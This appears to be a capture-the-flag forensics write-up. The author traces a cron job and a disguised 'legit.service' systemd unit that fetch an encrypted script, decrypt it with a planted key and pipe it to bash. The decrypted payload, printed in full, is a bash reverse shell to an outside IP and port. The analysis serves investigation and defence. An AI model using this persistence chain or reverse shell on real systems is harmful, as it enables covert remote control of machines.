 I started by going to var dir at first to see what possibly could be logged in it. At `var\spool\cron\crontabs` there is a file called `g33k` (it is themed with the author username) that contains:
```
# m h  dom mon dow   command
0 23 * * 1 sudo systemctl start legit.service
1 23 * * 1 sudo systemctl enable legit.service
1 23 * * 1 sudo /etc/init.d/initial.sh
```
It show a cron jobs that will run once each week. Lets find and check the content if those files.
```
$ find . -iname legit.service
./etc.tar/etc/systemd/system/legit.service
$ find . -iname initial.sh
./etc.tar/etc/init.d/initial.sh
$ cat ./etc.tar/etc/systemd/system/legit.service
[UNIT]

Description="4261636b646f6f72"

[Service]
Type=simple
ExecStart=curl https://raw.githubusercontent.com/0x01g33k/you_know_you-re_on_the_right_track/main/encrypted.sh -o /tmp/shell.sh

[Install]
WantedBy=multi=user.target
$ cat ./etc.tar/etc/init.d/initial.sh
#!/bin/bash

openssl rsautl -decrypt -inkey id_rsa.pem -in /tmp/shell.sh | bash
```
So it curl an encrypted shell from the previous link to `/tmp/shell.sh`, then decrypt it with `id_rsa.pem` key and finally execute it. So we just need to do the same, curl the same encrypted shell, find the key and decrypt the shell but no need to execute it.
```
$curl https://raw.githubusercontent.com/0x01g33k/you_know_you-re_on_the_right_track/main/encrypted.sh
$ find . -iname id_rsa.pem
./etc.tar/etc/.ssh/id_rsa.pem
$ openssl rsautl -decrypt -inkey ./etc.tar/etc/.ssh/id_rsa.pem -in encrypted.sh
The command rsautl was deprecated in version 3.0. Use 'pkeyutl' instead.
#!/bin/bash
bash -i >& /dev/tcp/41.35.61.53/52385 0>&1
```
Now we can see the attacker socket `{41.35.61.53:52385}`



## **3xploit**
